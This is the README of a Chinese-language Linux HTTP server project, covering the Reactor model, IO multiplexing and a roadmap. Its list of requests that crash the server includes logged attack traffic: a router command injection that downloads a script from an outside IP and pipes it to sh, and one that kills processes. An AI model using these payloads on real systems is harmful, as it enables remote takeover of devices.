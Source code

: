 # MyWeb

## 1、开发进度

本项目开发了一个基于Linux平台的轻量级HTTP服务器
* 采用了Reactor高并发模型
* 支持Select、Poll、Epoll三种IO复用方式
* 服务器通过状态机解析HTTP请求报文
* 使用自动增长的缓冲区来提升性能稳定性
* 通过WebBench对服务器进行了性能和压力测试，确保了其稳定性和可靠性。

计划：
* 引入MySQL，实现一个注册登录界面
* 处理POST请求
* 定时器
* 日志系统
* 实现Proactor模型
* 消息队列
* 分布式

奇怪的get请求，接收到以后，服务器就会挂，慢慢解决
* GET /.env HTTP/1.0
* GET /portal/redlion HTTP/1.0
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=id%3E%60for+pid+in+%2Fproc%2F%5B0-9%5D%2A%2F%3B+do+pid%3D%24%7Bpid%25%2F%7D%3B+pid%3D%24%7Bpid%23%23%2A%2F%7D%3B+exe_path%3D%24%28ls+-l+%2Fproc%2F%24pid%2Fexe+2%3E%2Fdev%2Fnull+%7C+awk+%27%7Bprint+%24NF%7D%27%29%3B+if+%5B%5B+%24exe_path+%3D%3D+%2A%2F+%5D%5D%3B+then+kill+-9+%24pid%3B+fi%3B+done%3B%60 HTTP/1.0
* GET http://www.ys168.com/?0.301155930654163458905783120 HTTP/1.1
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+-O-+http%3A%2F%2F154.216.17.31%2Ft%7Csh%3B%60) HTTP/1.0
* HEAD / HTTP/1.0


## 2、理论基础

### 三种 IO多路复用技术

https://github.com/Dream-ming/Learning_Note/blob/main/%E7%BD%91%E7%BB%9C/Socket/IO%E5%A4%9A%E8%B7%AF%E5%A4%8D%E7%94%A8/README.md

### 同步/异步，阻塞/非阻塞
* 同步
  * 指程序完全按照代码序列的顺序执行
* 异步
  * 指程序的执行需要由系统事件驱动
* 半同步半异步模式 (Reactor)
  * 同步线程用于处理客户逻辑
  * 异步线程用于处理I/O事件
  * 异步线程监听到客户请求后，就将其封装成请求对象并插入请求队列中
  * 请求队列将通知某个工作在同步模式的工作线程来读取并处理该请求对象
* 半同步半反应堆模式 (Proactor)
  * 主线程充当异步线程，负责监听所有 socket 的读写事件
  * 若有新的连接到来，主线程接收，并往 epoll 内核事件表中注册该事件
  * 若有读写事件发生，主线程从 socket 上接收数据，并将其封装成请求对象，插入请求队列当中
  * 所有工作线程睡眠在请求队列上，竞争处理请求队列上的任务

### HTTP 报文格式
